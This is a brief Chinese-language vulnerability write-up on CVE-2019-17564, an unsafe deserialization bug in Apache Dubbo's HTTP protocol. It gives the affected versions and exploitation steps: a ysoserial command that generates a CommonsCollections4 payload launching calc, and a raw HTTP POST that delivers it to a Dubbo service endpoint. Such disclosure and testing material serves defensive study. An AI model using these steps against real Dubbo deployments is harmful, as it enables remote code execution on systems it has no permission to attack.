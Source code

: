 ### 漏洞详情 ###
CVE-2019-17564是Apache Dubbo HTTP协议中的一个反序列化漏洞,该漏洞的主要原因在于当Apache Dubbo启用HTTP协议之后，Apache Dubbo在接受来自消费者的远程调用请求的时候存在一个不安全的反序列化行为，当项目包中存在可用的gadgets时即可导致远程代码执行

### 影响版本 ###

2.7.0 <= Apache Dubbo <= 2.7.4

2.6.0 <= Apache Dubbo <= 2.6.7

Apache Dubbo = 2.5.x

### 漏洞利用 ###

使用ysoserial生成payload

    java -jar ysoserial-0.0.6-SNAPSHOT-BETA-all.jar CommonsCollections4 calc > 1.ser

burp导入生成的payload 发送

    POST /org.apache.dubbo.samples.http.api.DemoService HTTP/1.1 
    Host: 192.168.0.102:8080 
    
    <ysoserial生成的payload>

![](图片/20200214161504.png)

